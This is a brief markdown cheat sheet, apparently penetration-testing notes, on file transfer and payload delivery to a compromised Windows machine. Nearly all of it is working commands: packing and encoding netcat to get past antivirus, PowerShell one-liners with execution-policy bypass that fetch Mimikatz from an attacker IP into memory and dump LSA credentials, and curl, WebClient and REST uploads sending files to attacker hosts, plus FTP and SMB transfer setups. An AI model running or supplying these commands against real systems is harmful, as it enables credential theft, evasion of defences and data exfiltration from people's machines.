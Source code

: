 ### UPX
```shell
upx -9 nc.exe
```

### exe2hex

```shell
exe2hex -x nc.exe -p nc.cmd
```

### base64

```shell
cat nc.cmd | base64 > nc.b64
```

### Download and memory execute

```powershell
#IWR works with new powershell versions / kinda AV
powershell.exe -exec Bypass -C 'IEX (IWR http://192.168.119.216/Invoke-Mimikatz.ps1 -UsebasicParsing);Invoke-Mimikatz -Command \" "privilege::debug" "token::elevate" "lsadump::lsa" \" '

#Old version powershell => New-object
powershell -exec bypass -c 'IEX (New-Object Net.WebClient).downloadString(http://192.168.119.201/mimikatz.exe)'

Invoke-WebRequest -Uri 'http://192.168.119.216/mimikatz.exe' -OutFile a.exe

```


### Upload a FIle: 

```shell
wget https://gist.githubusercontent.com/UniIsland/3346170/raw/059aca1d510c615df3d9fedafabac4d538ebe352/SimpleHTTPServerWithUpload.py ; chmod +x SimpleHTTPServerWithUpload.py; ./SimpleHTTPServerWithUpload.py
```

```shell
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.157.131/', 'bash.txt')

Invoke-RestMethod -Uri http://192.168.157.131/ -Method Post -inFile .\bash.txt 

powershell -ep bypass -c '$wc=New-Object System.Net.WebClient;$wc.UploadFile("http://192.168.157.131/", "POST", ".\bash.txt");'

curl -X POST --upload-file .\bash.txt http://192.168.119.237/
```


### FTP

```shell
#!/bin/bash

groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd

```


```powershell
ftp -v -n -s:ftp.txt
```

### smb

On Attacking machine: 

```shell
impacket-smbserver MyShare .
```

On Windows Machine

```shell
net use * \\192.168.119.216\MyShare
```